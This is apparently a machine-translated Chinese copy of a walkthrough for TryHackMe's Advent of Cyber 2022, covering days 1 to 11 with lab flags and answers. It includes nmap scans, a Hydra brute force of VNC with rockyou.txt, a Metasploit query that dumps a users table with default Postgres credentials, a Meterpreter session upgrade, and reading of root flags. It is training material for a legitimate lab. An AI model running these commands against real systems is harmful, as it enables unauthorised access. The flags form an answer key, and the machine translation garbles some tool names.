# 赛博 2022 的来临[第 1 天—第 24 天]所有的挑战

> 原文：<https://infosecwriteups.com/advent-of-cyber-2022-day-1-day-24-all-challenges-walkthrough-and-writeups-with-answers-by-c818cda6dc6e?source=collection_archive---------0----------------------->

## TryHackMe —网络 2022 的到来—所有挑战的报道和带答案的演练



# 任务 6【第 1 天】**框架** |有人要进城了！

**NIST 网络安全框架:**网络安全框架(CSF)由美国国家标准与技术研究所(NIST)开发，它为组织管理和降低网络安全风险提供了详细的指导。

该框架集中了五个基本功能:`**Identify**`->-`**Protect**`->-`**Detect**`->-`**Respond**`->-`**Recover.**`

有了这些功能，该框架使各组织能够确定其网络安全投资的优先次序，并不断改进，以实现目标网络安全状况。



> *完成练习获得旗帜！！*



1.  今年攻击圣诞老人网络的对手是谁？

```
Ans: Answer is in the Below Photo
```


2.他们留下的旗帜是什么？



```
Ans: THM{IT'S A Y3T1 CHR1$TMA$}
```


# 任务 7【第二天】**日志分析** |圣诞老人的淘气&不错的日志

1.  使用`ls`命令列出当前目录中的文件。有多少日志文件？

首先连接到机器或攻击箱



然后键入 ls 命令列出文件和文件夹


```
Ans: 2
```

2.Elf McSkidy 设法捕获了 web 服务器生成的日志。该日志文件的名称是什么？



```
Ans: webserver.log
```

3.从问题 3 开始研究日志文件，回答以下问题。

```
Ans: No Answer Needed
```

4.圣诞老人的淘气和乖孩子名单在哪一天被偷了？

> *让我们通过 Grep 调查文件*

```
cat webserver.log | grep “friday”
```



```
Ans: friday
```

5.攻击者的 IP 地址是什么？

> *由于日志文件显示攻击者的 IP*



```
Ans: 10.10.249.191
```

6.攻击者从圣诞老人那里偷走的重要名单叫什么？

```
cat webserver.log | grep santa
```



```
Ans: santaslist.txt
```

7.查看日志文件中的标志。标志的格式是:THM{}

```
grep -r "THM"
```



```
Ans: The Answer is in the Above Image
```

8.对日志分析感兴趣？我们推荐 [Windows 事件日志](https://tryhackme.com/room/windowseventlogs)室或者[端点安全监控模块](https://tryhackme.com/module/endpoint-security-monitoring)。

```
Ans: No Answer Needed
```


# 没有什么能逃过侦探麦克瑞德的眼睛

1.  santagift.shop 域名的注册商名称是什么？



```
Ans : Namecheap Inc
```

2.在[github.com](https://github.com/)上找到网站的源代码(存储库)并打开包含敏感凭证的文件。你能找到旗子吗？



```
Ans : {THM_OSINT_WORKS}
```

3.包含密码的文件的名称是什么？

```
Ans : config.php
```

4.与网站关联的 QA 服务器的名称是什么？

> *使用 Ctrl+F 查找关键词*


```
Ans : qa.santagift.shop
```

5.在 QA 和 PROD 环境之间重用的 DB_PASSWORD 是什么？

> *同样的方法*


```
Ans : S@nta2022
```


# 任务 9【第 4 天】**扫描** |扫描雪地

在回答问题之前，让我们使用 **nmap** 列举机器

```
nmap -sC -sV -Pn <Machine_Ip>
```



1.  远程主机上运行的 HTTP 服务器的名称是什么？

```
Ans : Apache
```

2.QA 服务器端口 22 上运行的服务名称是什么？

```
Ans : ssh
```

3.成功访问 Samba 服务后可以找到什么标志？

注意:SMB 或 Samba 3.0.20 可能容易受到默认用户(如 root admin 和 guest)执行命令的攻击。

打开攻击框，然后打开文件，并键入

```
smb://<machine-ip>/
```



[在这里找到用户名和密码](https://cyberw1ng.medium.com/advent-of-cyber-2022-day3-osint-nothing-escapes-detective-mcred-writeup-6cfff1f79500)



```
Ans : Answer is in the Above Image
```

4.用户名 santahr 的密码是什么？

打开用户列表



```
Ans : Answer is in the Above Image
```


# 任务 10【第 5 天】**蛮力** |他知道你什么时候醒着

让我们启动机器，并使用 nmap 枚举机器

> *sudo nmap-sS-sV<machine-IP>*



# 我们来剥削吧！！

1.  使用 Hydra 找到 IP 地址为`MACHINE_IP`的目标的 VNC 密码。密码是什么？

> *我们用九头蛇破解密码吧！！*
> 
> *Hydra 是一个暴力破解工具，帮助渗透测试人员和道德黑客破解网络服务的密码*

VNC 服务器不需要用户名就能破解九头蛇。所以我们给出了默认的密码列表 **rockyou.txt** 和服务器地址

```
hydra  -P /usr/share/wordlists/rockyou.txt vnc://<Machine-Ip> -V
```



```
Ans: 1q2w3e4r
```

2.使用攻击框上的 VNC 客户端，连接到 IP 地址为`MACHINE_IP`的目标。目标屏幕上写的是什么旗？

我们找到了密码，所以让我们试着用密码连接机器

在 Linux 中打开连接，并键入机器的 IP



输入我们找到的密码！！



```
Ans: Flag is in the Above Picture
```


# 任务 11[第 6 天] **电子邮件分析** |这开始看起来很像网络钓鱼

1.  发件人的电子邮件地址是什么？

单击顶部的拆分视图，并在机器中打开文件


```
Ans: Answer is in the Above image --> (From: )
```

2.回信地址是什么？

```
Ans: Answer is in the Above Image
```

3.这封电子邮件是以谁的名义发出的？

> [*答案就是上图中的*](https://cdn-images-1.medium.com/max/800/1*U-ychIky_A5FpDL5D6UshQ.png)

```
Ans: Chief elf
```

4.什么是 X-spam 分数？

> [*答案在上图*](https://cdn-images-1.medium.com/max/800/1*U-ychIky_A5FpDL5D6UshQ.png) 中

```
Ans: 3
```

5.Message-ID 字段的值中隐藏了什么？

我们必须解码 base64 字符串


```
Ans: AoC2022_Email_Analysis
```

6.访问任务中提供的电子邮件信誉检查网站。
发件人邮箱的信誉结果如何？

打开网站 [emailrep](https://emailrep.io/)

 [## 简单电子邮件信誉

### 阐明电子邮件地址背后的声誉。

电子邮件地址](https://emailrep.io) 

```
Ans: Risky
```

7.检查附件。附件的文件名是什么？

> *为了进一步调查，我将文件从远程机器发送到我的机器上！！*


发送者—远程机器



接收器—我的机器


```
Ans: Answer is in the Above Image (filename: )
```

8.附件的哈希值是多少？

[使用该分析仪分析。eml 文件](https://eml-analyzer.herokuapp.com/)

 [## EML 分析仪

### 编辑描述

eml-analyzer.herokuapp.com](https://eml-analyzer.herokuapp.com/) 

你会得到杂烩

```
Ans: Answer is in the Above Image
```

9.访问病毒总数网站，并使用哈希值进行搜索。
导航至行为部分。
ATT 法冠& CK 部分的第二个战术是什么？

打开 Virustotal 并搜索哈希值



```
Ans: Answer is in the Above Image (2nd Subtitle)
```

10.访问研讯网站，使用哈希值进行搜索。
文件的子类别是什么？

> *打开 I*

[](https://labs.inquest.net/) [## 验尸实验室-InQuest.net

### 研讯实验室是一个开放的 API 和交互式研究门户网站，旨在使个人分析师与工具和…

labs.inquest.net](https://labs.inquest.net/) 

```
Ans: Macro_hunter
```


# 任务 12【第 7 天】**赛博咖啡馆** |在火上烧烤的马尔多克人

> 让我们将文件从 TryHackMe 机器转移到我们的机器上，以便更好地调查！！


发送者— TryHackMe 机器(确保您连接到 TryHackMe 机器)



接收器—我的机器

## 1.在连接的虚拟机中找到的 CyberChef 是什么版本？

在攻击机器(TryHackMe Machine)中打开下载并检查标题



```
Ans: 9.49.0
```

## 2.从恶意文档中提取 URL 使用了多少方法？


## 食谱——让我们来编写代码



```
Ans: 10
```

## 3.我们发现一个正在下载可疑文件的 URL 该恶意软件的名称是什么？



```
Ans: mysterygift.exe
```

## 4.在最后一步中找到的 bandityeti 域的最后一个默认 URL 是什么？

```
Ans: hxxps[://]cdn[.]bandityeti[.]THM/files/index/
```

## 5.在其中一个域中找到的票证是什么？(格式:Domain/ <golden_flag>)</golden_flag>



```
Ans: THM_MYSTERY_FLAG
```


# 智能合约去年圣诞节，我给了你我的 ETH

1.  去年圣诞节，我把我的 ETH 给了你！

```
Ans: flag{411_ur_37h_15_m1n3}
```


# 任务 14【第 9 天】**旋转** |停靠大厅

## 1.部署连接的虚拟机，并等待几分钟。开放哪些端口？

> *使用 Nmap 执行端口扫描*


```
Ans: 80
```

## 2.web 应用程序是用什么框架开发的？

> *在浏览器中打开< Machine-Ip >，在底部会显示字符串 Laravel*



```
Ans: laravel
```

## 3.应用程序容易受到什么 CVE 的攻击？



```
Ans: CVE-2021-3129
```

## 4.可以使用什么命令将上次打开的会话升级到 Meterpreter 会话？

```
Ans: sessions -u -1
```

## 5.哪个文件指示 Docker 容器中的会话已经打开？

## Docker 是什么？

Docker 是一种将应用程序和相关的依赖项打包到一个称为映像的单元中的方法。然后，该映像可以作为容器共享和运行，既可以作为开发人员在本地运行，也可以在生产服务器上远程运行。Santa 的 web 应用程序和数据库运行在 Docker 容器中，但是只有 web 应用程序可以通过暴露的端口直接使用。判断 Docker 容器中是否正在运行受损的应用程序的一种常见方法是验证文件系统根目录中是否存在一个`**/.dockerenv**`文件。

```
Ans: /.dockerenv
```

## 6.哪个文件通常包含对 web 应用程序有用的凭据？

env 文件包含覆盖/etc/environment 文件中设置的变量的单个用户环境变量。

```
Ans: .env
```

## 7.哪个数据库表包含有用的凭证？

```
Ans: users
```

## 8.圣诞老人的密码是什么？



1 远程代码执行


```
use auxiliary/admin/postgres/postgres_sql
run postgres://postgres:postgres@<MACHINE_IP>/postgres sql='select * from users'
```

我们拿到密码了！！


```
Ans: p4$$w0rd
```

## 9.主机上打开了哪些端口？

```
Ans: 22,80
```

## 10.根旗是什么？

猫根. txt

```
cat /root/root.txt
```


# 黑一个游戏 |你真卑鄙，雪人先生



## 1.卫兵的旗帜是什么？

```
Ans: THM{5_star_Fl4gzzz}
```

## 2.雪人的旗帜是什么？

```
Ans: Answer is in the Video
```


# 任务 16【第 11 天】**记忆取证** |不是所有的礼物都是好的

# 什么是内存取证？

*   内存取证是对计算机开机时使用的易失性内存的分析。
*   计算机使用称为随机存取存储器(RAM)的专用存储设备来记住当时计算机上正在执行的操作。RAM 速度极快，是存储和访问数据的首选方法。

让我们使用**波动率**进行调查！！

> ***Volatility*** *是* *一款强大的工具，用于分析 Linux、Mac、***Windows 系统上的内存转储。**

*你可以在这里下载[波动工具！！](https://github.com/volatilityfoundation/volatility.git)*

*[](https://github.com/volatilityfoundation/volatility.git) [## GitHub-volatility foundation/volatility:一个高级内存取证框架

